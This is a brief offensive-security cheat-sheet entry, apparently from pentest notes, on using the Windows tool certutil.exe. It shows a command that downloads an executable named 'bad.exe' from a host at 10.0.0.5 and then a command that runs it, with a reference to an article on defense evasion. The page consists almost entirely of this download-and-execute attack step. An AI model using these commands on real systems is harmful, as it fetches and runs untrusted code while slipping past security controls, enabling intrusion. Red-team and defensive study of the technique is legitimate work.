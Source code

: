 # CMD Commands

## Built in Tools

### Certutil.exe

```
# Download files
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe

# Execute
bad.exe
```







***

## REFERENCES

* [https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil](https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil)
